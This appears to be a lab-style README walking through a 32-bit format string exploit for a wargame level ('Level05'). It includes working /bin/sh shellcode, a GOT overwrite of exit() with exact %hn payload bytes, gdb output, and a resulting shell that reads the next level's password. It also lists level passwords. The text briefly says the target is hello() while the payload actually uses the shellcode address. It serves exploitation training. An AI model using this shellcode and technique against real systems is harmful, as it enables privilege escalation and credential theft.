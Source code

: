 # Level05 - 32 bits - Format string vulnerability

## Local script usage

Requirements:

- `gdb-peda`
- `getenv32`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level05/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level05 | `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN` |
| level06 | `h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We notice a vulnerable printf and then an exit syscall.

We could replace the exit address in the Global Offset Table, with the address of a shellcode exported as environment variable.

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn't have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of hello(). There are 4 steps here :

- Find the address of the shellcode
- Find the address of exit() in GOT
- Find the offset of our buffer on the stack
- Write the proper exploit string

Let's find the shellcode address

```shell
export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

/tmp/getenv32 SHELLCODE ~/level05
  0xffffd74a

p 0xffffd74a + 100 # target in the middle of nopsled
  $7 = 0xffffd7ae
```

Now lets find the exit address in GOT

```shell
objdump -R ~/level05 | grep exit
  080497e0 R_386_JUMP_SLOT   exit
```

And now the buffer offset in the stack

```shell
b*main+195
run <<< "AAAAAA"
telescope 20
[------------------------------------stack-------------------------------------]
0000| 0xffffd590 --> 0xffffd5b8 ("aaaaaa\n")        # _
0004| 0xffffd594 --> 0x64 ('d')                     #  |
0008| 0xffffd598 --> 0xf7fcfac0 --> 0xfbad2288      #  |
0012| 0xffffd59c --> 0xf7ec3af9 (test   eax,eax)    #  |
0016| 0xffffd5a0 --> 0xffffd5df --> 0x48520f7       #  |
0020| 0xffffd5a4 --> 0xffffd5de --> 0x8520f7fc      #  |
0024| 0xffffd5a8 --> 0x0                            #  |
0028| 0xffffd5ac --> 0xffffffff                     #  |
0032| 0xffffd5b0 --> 0xffffd664 --> 0x86d22783      #  |
0036| 0xffffd5b4 --> 0x0                            #  |
0040| 0xffffd5b8 ("aaaaaa\n")                       # _| offset 10
0044| 0xffffd5bc --> 0xa6161 ('aa\n')
[------------------------------------------------------------------------------]

# The offset is 10. Lets check that
~/level05
(stdin) AAAA%10$p
  aaaa0x61616161
```

We have now everything we need.

We want write `0xffffd7ae` at `0x080497e0`

As `0xffffd7ae` is a big value, instead of print this value, we will split this integer with two short integers:

- High-order bytes: 0xffff will be written at `0x080497e0 + 2`
- Low-order bytes: 0xd7ae will be written at `0x080497e0`

Basically, our format string should be something like:

```bash
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %10$hn +  %<VALUE_2>x + %11$hn
   _____________________________________|                      |
   |           ________________________________________________|
   |           |
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %10$hn +  %<VALUE_2>x + %11$hn
   |           |            |                       |
0x080497e0 0x080497e2  (0xd7ae - 8)         (0xffff - 0xd7ae)

=> "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55206x" + "%10$hn" + "%10321x" + "%11$hn"
```

> \_Note: VALUE_1 has to be greater than VALUE_2. Otherwise, switch addresses

Lets try

```shell
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55206x" + "%10$hn" + "%10321x" + "%11$hn"' > /tmp/exploit05

cat /tmp/exploit05 - | ~/level05
(...)
$ whoami
  level06
$ cat /home/users/level06/.pass
  h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

## Sources

### Hack

- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)

### C

- [Man exit](https://linux.die.net/man/3/exit)
- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
